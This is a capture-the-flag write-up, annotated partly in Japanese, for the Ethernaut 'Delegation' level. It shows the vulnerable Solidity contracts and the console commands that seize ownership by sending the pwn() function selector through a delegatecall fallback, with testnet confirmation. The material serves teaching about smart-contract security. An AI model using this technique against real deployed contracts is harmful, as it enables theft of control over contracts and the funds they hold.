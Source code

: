6. DELEGATION 

This means that a contract can dynamically load code from a different address at runtime. 
Storage, current address and balance still refer to the calling contract, 
only the code is taken from the called address.

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

●Look into Soliditys documentation on the delegatecall low level function, how it works, 
how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
●Fallback methods
●Method ids

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender; //change the pwner call the Delegation contract 
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data); //By hacking, delegatecall signature of pwn() function into this fallback 
    if (result) {
      this;
    }
  }
}


//まずいつもどおりinstanceをつくる

//contract確認
>contract

n {methods: {…}, abi: Array(3), address: '0x6288594C2A2B0847D5C6b7f6E7fB92f380D13717', transactionHash: undefined, constructor: ƒ, …}
abi: (3) [{…}, {…}, {…}]
address: "0x6288594C2A2B0847D5C6b7f6E7fB92f380D13717"
allEvents: ƒ (n)
constructor: ƒ ()
contract: I {_requestManager: t, givenProvider: Proxy, providers: {…}, setProvider: ƒ, …}
getPastEvents: ƒ (n,i)
methods: {owner(): ƒ}
owner: ƒ ()
send: ƒ (t)
sendTransaction: ƒ ()
transactionHash: undefined
[[Prototype]]: e


>contract.abi
(3) [{…}, {…}, {…}]
0: {inputs: Array(1), stateMutability: 'nonpayable', type: 'constructor', constant: undefined, payable: undefined}
1: {stateMutability: 'nonpayable', type: 'fallback', constant: undefined, payable: undefined}
2: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}
length: 3
[[Prototype]]: Array(0)

//現オーナーの確認
>await contract.owner()
'0x9451961b7Aea1Df57bc20CC68D72f662241b5493'

>var pwnFuncSignature = web3.utils.sha3("pwn()")
undefined

>pwnFuncSignature
'0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab'

>contract.sendTransaction({data: pwnFuncSignature})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}addListener: ƒ (t,e,r)emit: ƒ (t,e,r,n,o,a)listeners: ƒ (t)off: ƒ (t,e,r,n)on: ƒ (t,e,r)once: ƒ (t,e,r)removeAllListeners: ƒ (t)removeListener: ƒ (t,e,r,n)_events: o {}[[Prototype]]: Promise[[PromiseState]]: "pending"[[PromiseResult]]: undefined
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3e1c3b84fcb960c8b027571fa9b2439959aaccf72da1b8d802d910d6e87732d8
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3e1c3b84fcb960c8b027571fa9b2439959aaccf72da1b8d802d910d6e87732d8

//ownerがchangeしたことを確認
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

=> hackingに成功 via pwn()function


Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, 
your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". 
Delegates have complete access to your contracts state. The delegatecall function is a powerful feature, 
but a dangerous one, and must be used with extreme care.

Please refer to the The Parity Wallet Hack Explained article for an accurate explanation of how this idea was used to steal 30M USD.

https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7/










